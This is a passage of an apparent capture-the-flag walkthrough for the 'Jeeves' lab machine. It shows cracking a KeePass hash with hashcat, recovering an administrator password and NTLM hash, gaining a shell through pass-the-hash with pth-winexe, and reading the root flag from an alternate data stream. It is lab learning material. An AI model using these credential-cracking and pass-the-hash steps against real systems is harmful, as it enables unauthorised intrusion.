 After running `keepass2john` on **CEH.kdbx**, I extracted the hash and successfully cracked it using `hashcat`. The recovered password, `moonshine1`, was then used to access the KeePass database by running:
```bash
keepass2john CEH.kdbx
```
Upon entering the password moonshine1, I successfully logged in and retrieved the Administrator password: `S1TjAtJHKsugh9oC4VZl`.

![](../../Assets/walktrhough-assets/jeeves/2025-02-09_9.png)

## Pass The Hash
I copied the passwords for `administrator` and the backup which the username is just a `?` and it looks like its an `NTLM HASH` and saved it to a file.

```bash
➜  jeeves-10.129.45.32 cat password.txt                    
───────┬──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: password.txt
───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ administrator:S1TjAtJHKsugh9oC4VZl
   2   │ NTLM HASH:aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
```
I used `winexe` to login to smb

```bash
/usr/bin/winexe -U jenkins\administrator //10.129.45.32 cmd.exe
```
Password for [WORKGROUP\jenkinsadministrator]: <pass>
But it did not work so I tried PASS the NTLM Hash

```bash
/usr/bin/pth-winexe -U jenkins/administrator //10.129.45.32 cmd.exe
```
once pass the hash we get root access.

![](../../Assets/walktrhough-assets/jeeves/2025-02-09_10.png)
Upon accessing the Administrator desktop, I discovered a file named **hm.txt** and initially assumed it contained the root flag. However, after opening it, I realized that was not the case. The file itself hinted that I needed to dig deeper.

By analyzing alternate **data streams (ADS)**, I found that **hm.txt** contained a hidden **root.txt** file. Running `dir /r` revealed the presence of the data stream, but it did not immediately display the root flag. The next challenge was determining how to access the hidden content.
```bash
dir /r
```
![](../../Assets/walktrhough-assets/jeeves/2025-02-09_11.png)
I used the powershell stream command to get the content of the root.txt

```bash
powershel (Get-Content hm.txt -Stream root.txt)
```
### Root flag
```bash
afbc5bd4b615a60648cec41c6ac92530
```
![](../../Assets/walktrhough-assets/jeeves/2025-02-09_12.png)
